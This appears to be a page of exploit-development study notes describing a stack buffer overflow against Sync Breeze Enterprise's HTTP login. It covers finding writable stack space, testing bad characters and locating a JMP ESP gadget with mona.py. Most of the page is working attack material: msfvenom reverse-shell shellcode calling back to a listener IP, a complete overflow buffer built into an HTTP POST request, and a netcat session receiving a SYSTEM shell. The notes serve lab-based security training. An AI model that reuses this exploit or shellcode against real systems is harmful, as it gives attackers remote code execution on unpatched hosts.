





# Placing Shellcode

## Locating Space

The first step is to find a space in memory that is **writable** for the attacker and **large enough** to hold a reverse shell (or other exploit code).

After supplying an 800 byte register (780 A's, 4 B's, 16 C's) the registers of SyncBreeze appear as follows:

<div align="center">

<figure><figcaption><p>Registers after running </p></figcaption></figure>

</div>

<div align="center">

<figure><figcaption><p>Stack after run</p></figcaption></figure>

</div>

Notice the `$ESP` (stack pointer) is pointed to an area containing the C's from the initial buffer. Perhaps this could be leveraged during exploitation. Unfortunately with an 800 byte buffer there are only 12 bytes to work with (note `$ESP` is pointing to an area starting 4 bytes after the B's that ended up in `$EIP`).

A typical reverse shell is around 350-400 bytes and thus cannot fit in the 12 byte space available.

Perhaps a longer buffer could be supplied without breaking the overflow conditions discovered heretofore.&#x20;

After modifying the code to create a longer buffer it can be run again and the register/stack contents reexamined.

Using a 1500 byte buffer the overflow conditions were replicated and the application crashed but $ESP was pointing at 708 bytes (Starts at `ESP+1E1C` and ends at `ESP+20E0`) filled with D's in this example:

<figure><figcaption><p>1500 byte buffer provides more room</p></figcaption></figure>

Extending the buffer size has increased writable space from 12 bytes to 708 bytes which should be more than sufficient to create a reverse shell.

It is worth noting the address in `$ESP` changes for each execution but it always points to the remainder of the buffer.

## Checking for Bad Characters

Depending on the application, vulnerability type, and protocols in use, there may be certain characters that are considered "bad" and should not be used in a buffer, return address, or shellcode.

One example of a common bad character, especially in buffer overflows caused by unchecked string copy operations, is the null byte, `0x00`. This character is considered bad because a null byte is also used to terminate a string in low level languages such as C/C++. This will cause the string copy operation to end, effectively truncating our buffer at the first instance of a null byte.

This can be tested by submitting buffers with expected invalid characters (list below) and determining which ones actually break the buffer by checking what ends up in the buffer and where truncation happens:

```python
# String of "bad" characters to be added to the buffer and checked
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

Unfortunately the instance of Immunity I had access to was having trouble with all of these characters and showing the memory spaces as blank so this was difficult to do and acquire screenshots of.

## Redirecting Execution Flow

At this point the following is understood:

* Control of `$EIP`
  * Location in buffer that ends up in `$EIP` is known
* Shellcode can be placed
  * Can be accessed easily via `$ESP` register
* Invalid characters for buffer

Given the above the first instinct would be to place shellcode in the area pointed to by `$ESP` and then code `$EIP` to point to the address contained in `$ESP`.

<figure><figcaption></figcaption></figure>

In the example pictured that would require `$EIP` to be set to `0x01B3745C`.

While this instinct is basically correct it is not quite that simple. Due to ASLR the actual address contained in `$ESP` changes execution-to-execution. For this reason it is not possible to simply hard-code the address contained in `$ESP` into the buffer.

### Finding a Return Address

It makes sense to store the shellcode in the area pointed to by `$ESP`, but there needs to be a consistent way to access that location.

Ideally this would take the form of a `JMP ESP` instruction that appears at a consistent location.

If this can be found `$EIP` could be coded to point at the static (in terms of memory placement) `JMP ESP` instruction thus causing the program to execute that instruction and jump into the stack space containing the shellcode.

While this instruction is pretty common and thus contained in many Windows libraries, one must be found that meets the following criteria:

1. Addresses used in the library must be static
   * Eliminates libraries compiled with ASLR support
2. Address of the instruction must not contain any of the bad characters that would break the buffer

#### mona.py

[mona.py](https://github.com/corelan/mona) is a python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform). It runs on Immunity Debugger and WinDBG.

First the script will be used to determine what DLLs are loaded by SyncBreeze during execution. This can be achieved with the `!mona modules` command (executed in the Immunity Debugger command bar after attaching an instance of Sync Breeze).

#### Choosing a Viable DLL

<figure><figcaption><p>Checking the loaded modules with mona</p></figcaption></figure>

To meet the conditions set above the DLL must be compiled with SafeSEH (Structured Exception Handler Overwrite, an exploit-preventative memory protection technique), ASLR, and NXCompat (DEP protection) disabled.

There are a few candidates:

1. `libsync.dll`
2. `libpal.dll`
3. `libspp.dll`
4. `syncbrs.exe`

The executable itself was not compiled with any of these protections in place. However it always loads at `0x00400000` which does not meet the second criteria above as all addresses start `0x004...` and `0x00` is an invalid character in the buffer.

`libpal.dll` and `libsync.dll` are disqualified for the same reason loading at `0x00540000` and `0x00830000` respectively.

This leaves `libspp.dll` as the only viable candidate.

#### Finding a Command in the DLL

Now that a viable DLL has been located a static `JMP ESP` instruction is still needed.

It is possible to use native commands within the Immunity Debugger to search for the `JMP ESP` instruction, but the search would have to performed on multiple data areas inside the DLL.

However, it is also possible (and easier) to use mona.py to perform an exhaustive search for the binary or hexadecimal representation (or **opcode**) of the assembly instruction.

To find the opcode equivalent of `JMP ESP`, we can use the Metasploit NASM Shell ruby script (`msf-nasm_shell`):

```bash
kali@kali:~$ msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
```

At this point mona.py can be used to search for the opcode (`0xFFE4`) using the command in the mona command line:

```
!mona find -s "\xff\xe4" -m libspp.dll
```

* `-s` flag allows user to specify the command for search
* `-m` flag allows user to specify the module to search

<figure><figcaption><p>Searching the opcode with mona</p></figcaption></figure>

The output is copied here:

```
0x10090c83 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [libspp.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll)
```

The relevant line indicates that there is a stating `JMP ESP` command loaded at `0x10090C83`. This means if the buffer is arranged such that the portion in `$EIP` is the address listed above the code will jump into the stack and continue execution.

## Generating Shellcode

There are a few options for generating shellcode to be placed in the buffer:

* Write custom shellcode
* Metasploit Framework

### Metasploit Framework

The `msfvenom` command can generate over 500 shellcode payload options.

```shell-session
kali@kali:~$ msfvenom -l payloads

Framework Payloads (968 total) [--payload <value>]
==================================================

    Name                                                   Description
    ----                                                   -----------
    aix/ppc/shell_bind_tcp                                 Listen for a connection and spawn a command shell
    aix/ppc/shell_find_port                                Spawn a shell on an established connection
    ...
    windows/x64/vncinject/reverse_winhttp                  Inject a VNC Dll via a reflective loader (Windows x64)
                                                            (staged). Tunnel communication over HTTP (Windows x64
                                                            winhttp)
    windows/x64/vncinject/reverse_winhttps                 Inject a VNC Dll via a reflective loader (Windows x64)
                                                            (staged). Tunnel communication over HTTPS (Windows x6
                                                           4 winhttp)
```

#### Generating Code with Metasploit

```shell-session
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.174 LPORT=443 -f c

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1392 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26"
"\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7"
"\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78"
"\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3"
"\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
"\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a"
"\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32"
"\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff"
"\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x2d\xae\x68\x02"
"\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5"
"\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57"
"\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89"
"\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb"
"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
"\xff\xd5";
```

This seems easy enough, but it does not actually work.

Upon further inspection it turns out that the shellcode contains some of the invalid characters found earlier. Using the `-b` flag it is possible to inform `msfvenom` of invalid characters and exclude them from the output.

Additionally it is possible to use an advanced polymorphic encoder, e.g. `shikata_ga_nai`, via the `-e` flag.

```shell-session
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.174 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xba\x3c\xec\x2f\xc5\xd9\xea\xd9\x74\x24\xf4\x58\x31\xc9"
"\xb1\x52\x31\x50\x12\x83\xe8\xfc\x03\x6c\xe2\xcd\x30\x70"
"\x12\x93\xbb\x88\xe3\xf4\x32\x6d\xd2\x34\x20\xe6\x45\x85"
"\x22\xaa\x69\x6e\x66\x5e\xf9\x02\xaf\x51\x4a\xa8\x89\x5c"
"\x4b\x81\xea\xff\xcf\xd8\x3e\xdf\xee\x12\x33\x1e\x36\x4e"
"\xbe\x72\xef\x04\x6d\x62\x84\x51\xae\x09\xd6\x74\xb6\xee"
"\xaf\x77\x97\xa1\xa4\x21\x37\x40\x68\x5a\x7e\x5a\x6d\x67"
"\xc8\xd1\x45\x13\xcb\x33\x94\xdc\x60\x7a\x18\x2f\x78\xbb"
"\x9f\xd0\x0f\xb5\xe3\x6d\x08\x02\x99\xa9\x9d\x90\x39\x39"
"\x05\x7c\xbb\xee\xd0\xf7\xb7\x5b\x96\x5f\xd4\x5a\x7b\xd4"
"\xe0\xd7\x7a\x3a\x61\xa3\x58\x9e\x29\x77\xc0\x87\x97\xd6"
"\xfd\xd7\x77\x86\x5b\x9c\x9a\xd3\xd1\xff\xf2\x10\xd8\xff"
"\x02\x3f\x6b\x8c\x30\xe0\xc7\x1a\x79\x69\xce\xdd\x7e\x40"
"\xb6\x71\x81\x6b\xc7\x58\x46\x3f\x97\xf2\x6f\x40\x7c\x02"
"\x8f\x95\xd3\x52\x3f\x46\x94\x02\xff\x36\x7c\x48\xf0\x69"
"\x9c\x73\xda\x01\x37\x8e\x8d\xed\x60\xbd\xe3\x86\x72\xbd"
"\xfa\xed\xfa\x5b\x96\x01\xab\xf4\x0f\xbb\xf6\x8e\xae\x44"
"\x2d\xeb\xf1\xcf\xc2\x0c\xbf\x27\xae\x1e\x28\xc8\xe5\x7c"
"\xff\xd7\xd3\xe8\x63\x45\xb8\xe8\xea\x76\x17\xbf\xbb\x49"
"\x6e\x55\x56\xf3\xd8\x4b\xab\x65\x22\xcf\x70\x56\xad\xce"
"\xf5\xe2\x89\xc0\xc3\xeb\x95\xb4\x9b\xbd\x43\x62\x5a\x14"
"\x22\xdc\x34\xcb\xec\x88\xc1\x27\x2f\xce\xcd\x6d\xd9\x2e"
"\x7f\xd8\x9c\x51\xb0\x8c\x28\x2a\xac\x2c\xd6\xe1\x74\x5c"
"\x9d\xab\xdd\xf5\x78\x3e\x5c\x98\x7a\x95\xa3\xa5\xf8\x1f"
"\x5c\x52\xe0\x6a\x59\x1e\xa6\x87\x13\x0f\x43\xa7\x80\x30"
"\x46";
```

This was then incorporated into the buffer overflow code:

```
eip = "\x83\x0c\x09\x10"
shellcode = ("\xba\x3c\xec\x2f\xc5\xd9\xea\xd9\x74\x24\xf4\x58\x31\xc9"
        "\xb1\x52\x31\x50\x12\x83\xe8\xfc\x03\x6c\xe2\xcd\x30\x70"
        "\x12\x93\xbb\x88\xe3\xf4\x32\x6d\xd2\x34\x20\xe6\x45\x85"
        "\x22\xaa\x69\x6e\x66\x5e\xf9\x02\xaf\x51\x4a\xa8\x89\x5c"
        "\x4b\x81\xea\xff\xcf\xd8\x3e\xdf\xee\x12\x33\x1e\x36\x4e"
        "\xbe\x72\xef\x04\x6d\x62\x84\x51\xae\x09\xd6\x74\xb6\xee"
        "\xaf\x77\x97\xa1\xa4\x21\x37\x40\x68\x5a\x7e\x5a\x6d\x67"
        "\xc8\xd1\x45\x13\xcb\x33\x94\xdc\x60\x7a\x18\x2f\x78\xbb"
        "\x9f\xd0\x0f\xb5\xe3\x6d\x08\x02\x99\xa9\x9d\x90\x39\x39"
        "\x05\x7c\xbb\xee\xd0\xf7\xb7\x5b\x96\x5f\xd4\x5a\x7b\xd4"
        "\xe0\xd7\x7a\x3a\x61\xa3\x58\x9e\x29\x77\xc0\x87\x97\xd6"
        "\xfd\xd7\x77\x86\x5b\x9c\x9a\xd3\xd1\xff\xf2\x10\xd8\xff"
        "\x02\x3f\x6b\x8c\x30\xe0\xc7\x1a\x79\x69\xce\xdd\x7e\x40"
        "\xb6\x71\x81\x6b\xc7\x58\x46\x3f\x97\xf2\x6f\x40\x7c\x02"
        "\x8f\x95\xd3\x52\x3f\x46\x94\x02\xff\x36\x7c\x48\xf0\x69"
        "\x9c\x73\xda\x01\x37\x8e\x8d\xed\x60\xbd\xe3\x86\x72\xbd"
        "\xfa\xed\xfa\x5b\x96\x01\xab\xf4\x0f\xbb\xf6\x8e\xae\x44"
        "\x2d\xeb\xf1\xcf\xc2\x0c\xbf\x27\xae\x1e\x28\xc8\xe5\x7c"
        "\xff\xd7\xd3\xe8\x63\x45\xb8\xe8\xea\x76\x17\xbf\xbb\x49"
        "\x6e\x55\x56\xf3\xd8\x4b\xab\x65\x22\xcf\x70\x56\xad\xce"
        "\xf5\xe2\x89\xc0\xc3\xeb\x95\xb4\x9b\xbd\x43\x62\x5a\x14"
        "\x22\xdc\x34\xcb\xec\x88\xc1\x27\x2f\xce\xcd\x6d\xd9\x2e"
        "\x7f\xd8\x9c\x51\xb0\x8c\x28\x2a\xac\x2c\xd6\xe1\x74\x5c"
        "\x9d\xab\xdd\xf5\x78\x3e\x5c\x98\x7a\x95\xa3\xa5\xf8\x1f"
        "\x5c\x52\xe0\x6a\x59\x1e\xa6\x87\x13\x0f\x43\xa7\x80\x30"
        "\x46")

filler = "A" * 780
offset = "C" * 4
# Pad end of buffer
nops = "\x90" * 10

inputBuffer = filler + eip + offset + nops + shellcode

content = "username=" + inputBuffer + "&password=A"

buffer = "POST /login HTTP/1.1\r\n"
buffer += "Host: " + vicIP + "\r\n"
buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buffer += "Accept-Language: en-US,en;q=0.5\r\n"
buffer += "Referer: http://" + vicIP + "/login\r\n"
buffer += "Connection: close\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: "+str(len(content))+"\r\n"
buffer += "\r\n"

buffer+=content
```

In anticipation a **reverse shell listener** is opened and hopefully it will get a connection:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ sudo nc -lnvp 443
</strong>listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 57692
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
whoami
nt authority\system

C:\Windows\system32> 
</code></pre>
